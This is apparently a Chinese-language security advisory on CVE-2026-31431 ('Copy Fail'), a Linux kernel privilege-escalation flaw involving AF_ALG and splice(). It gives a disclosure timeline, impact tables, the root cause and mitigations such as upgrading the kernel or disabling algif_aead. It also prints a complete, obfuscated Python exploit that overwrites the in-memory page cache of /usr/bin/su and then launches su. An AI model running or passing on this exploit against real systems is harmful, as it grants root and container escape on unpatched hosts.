

**本文存在AI生成内容（漏洞技术流程分析）**

---

## 时间线

| 日期 | 事件 |
|:---|:---|
| 2011 | `AF_ALG` 套接字引入内核，向非特权用户态暴露加密子系统 |
| 2017 | 内核提交引入原地操作优化 |
| 2026-03-23 | Theori 研究员 Taeyang Lee 向 Linux 内核安全团队报告漏洞 |
| 2026-04-01 | 修复补丁合并至 Linux 主线内核 |
| 2026-04-22 | [CVE-2026-31431](https://nvd.nist.gov/vuln/detail/CVE-2026-31431) 正式分配 |
| 2026-04-29 | 公开披露，PoC 发布 |
| 2026-04-30 | 各主流发行版开始推送补丁 |

---

## 危害性

| 指标 | 详情 |
|:---|:---|
| **CVSS** | 7.8 (High) |
| **利用成功率** | 100%，无需竞争条件 |
| **影响范围** | 2017 年以来几乎所有主流 Linux 发行版 |
| **Payload** | 732 字节 Python 脚本 |
| **磁盘痕迹** | **无** — 仅修改内存页缓存，绕过 inotify / FIM |
| **容器逃逸** | 页缓存全局共享，容器内触发、宿主机生效 |

**与历史内核 LPE 漏洞的对比：**

| 特性 | Dirty Cow (2016) | Dirty Pipe (2022) | **Copy Fail (2026)** |
|:---|:---|:---|:---|
| 竞争条件 | 需要 | 不需要 | **不需要** |
| 影响版本 | 特定版本 | 5.8+ | **2017+ 全部主流发行版** |
| 利用代码 | 复杂 | 复杂 | **10 行 Python** |
| 磁盘痕迹 | 有 | 有 | **无** |

### 容器与云环境的致命威胁

| 场景 | 风险描述 |
|:---|:---|
| **共享主机 / K8s 节点** | 页缓存是宿主机与所有容器全局共享的，容器 A 内修改的 `sudo` 缓存页直接污染宿主机 |
| **CI/CD Runner** | GitHub Actions / GitLab CI 自建 runner 中执行不可信 PR 代码，直接触发提权 |
| **取证困难** | 攻击后页缓存会在自然 I/O 压力下被正常内容覆盖，**无持久痕迹** |

---

## PoC 示例

完整利用代码已公开于 [theori-io/copy-fail-CVE-2026-31431](https://github.com/theori-io/copy-fail-CVE-2026-31431)。
**仅供授权环境下的安全研究与防御验证，严禁非法利用。**

```python title="copy-fail-poc-demo."
#!/usr/bin/env python3
import os as g,zlib,socket as s
def d(x):return bytes.fromhex(x)
def c(f,t,c):
 a=s.socket(38,5,0);a.bind(("aead","authencesn(hmac(sha256),cbc(aes))"));h=279;v=a.setsockopt;v(h,1,d('0800010000000010'+'0'*64));v(h,5,None,4);u,_=a.accept();o=t+4;i=d('00');u.sendmsg([b"A"*4+c],[(h,3,i*4),(h,2,b'\x10'+i*19),(h,4,b'\x08'+i*3),],32768);r,w=g.pipe();n=g.splice;n(f,w,o,offset_src=0);n(r,u.fileno(),o)
 try:u.recv(8+t)
 except:0
f=g.open("/usr/bin/su",0);i=0;e=zlib.decompress(d("78daab77f57163626464800126063b0610af82c101cc7760c0040e0c160c301d209a154d16999e07e5c1680601086578c0f0ff864c7e568f5e5b7e10f75b9675c44c7e56c3ff593611fcacfa499979fac5190c0c0c0032c310d3"))
while i<len(e):c(f,i,e[i:i+4]);i+=4
g.system("su")
```

> **核心原理一句话**：`splice()` 传递只读文件的页缓存引用 → `AF_ALG` 原地优化让只读页被当作可写输出缓冲区 → `authencesn` 越界写 4 字节修改页缓存中的 `sudo` 机器码。修改的是**内存中的页缓存**，不是磁盘文件，因此 inotify、AIDE、Tripwire 全部失效。

---

## 解决方法

截至 2026 年 4 月 30 日，**官方补丁已发布**。请务必第一时间升级内核！

### 永久修复：升级内核

```bash title="Debian / Ubuntu"
sudo apt update && sudo apt upgrade linux-image-generic
sudo reboot
```
---

```bash title="RHEL / Fedora / CentOS Stream"
sudo dnf update kernel
sudo reboot
```

### 临时缓解（无法立即重启时）

禁用 `algif_aead` 内核模块，直接消除攻击面：

```bash title="禁用 algif_aead 模块"
echo "install algif_aead /bin/false" | sudo tee /etc/modprobe.d/disable-algif.conf
sudo rmmod algif_aead 2>/dev/null || true
```

**验证禁用状态**：

```bash title="验证模块状态"
lsmod | grep algif_aead    # 应无输出
cat /etc/modprobe.d/disable-algif.conf
```

> **注意**：禁用 `algif_aead` 仅影响通过 `AF_ALG` 套接字使用 AEAD 加密的用户态应用。大多数 Web、数据库、容器工作负载不依赖此接口，影响有限。若运行了依赖内核 AEAD socket 的加密软件（如某些 IPsec VPN 配置），请先在测试环境验证。

---

## AI 解析问题根源流程

Copy Fail 由 Theori 的 **Xint Code**（AI 辅助代码审计工具）在约 **1 小时**自动扫描中发现。研究员仅提供了 "`splice()` 可将只读页缓存送入 crypto TX scatterlist" 这一提示词，AI 完成了后续全部推理：



**三个独立"合理优化"的致命交集：**

| 变更 | 时间 | 初衷 | 副作用 |
|:---|:---|:---|:---|
| `AF_ALG` 套接字 | 2011 | 向用户态暴露内核加密能力 | 普通用户无需特权即可创建加密会话 |
| `splice()` 零拷贝 | - | 避免数据拷贝到用户态 | 可直接传递只读文件的页缓存引用 |
| `algif_aead` 原地优化 | 2017 | 提升 AEAD 运算性能 | 只读页缓存页被当作可写输出缓冲区 |

**这意味着什么？** 三个单独看都没问题的内核设计，拼在一起就变成了**无需竞争、一次执行必定成功、全发行版通杀**的提权核弹 💣

---

## 参考链接
- [Theori 官方披露](https://xint.io/blog/copy-fail-linux-distributions)
- [完整 PoC 仓库](https://github.com/theori-io/copy-fail-CVE-2026-31431)
- [The Register 报道](https://www.theregister.com/2026/04/30/linux_cryptographic_code_flaw/)
- [NVD 官方记录](https://nvd.nist.gov/vuln/detail/CVE-2026-31431)
